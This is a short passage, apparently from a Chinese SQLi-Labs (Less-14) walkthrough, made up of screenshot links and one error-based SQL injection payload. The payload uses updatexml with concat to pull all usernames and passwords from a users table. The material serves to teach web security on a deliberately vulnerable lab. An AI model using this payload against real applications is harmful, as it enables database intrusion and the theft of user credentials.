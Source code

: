 ![Less-14_11](./img/Less-14_11.PNG)



+ 爆破数据

~~~ shell
1" union select 1,updatexml(1,concat(0x7e,(select group_concat(username,password) from users),0x7e),1)#
~~~

![Less-14_12](./img/Less-14_12.PNG)
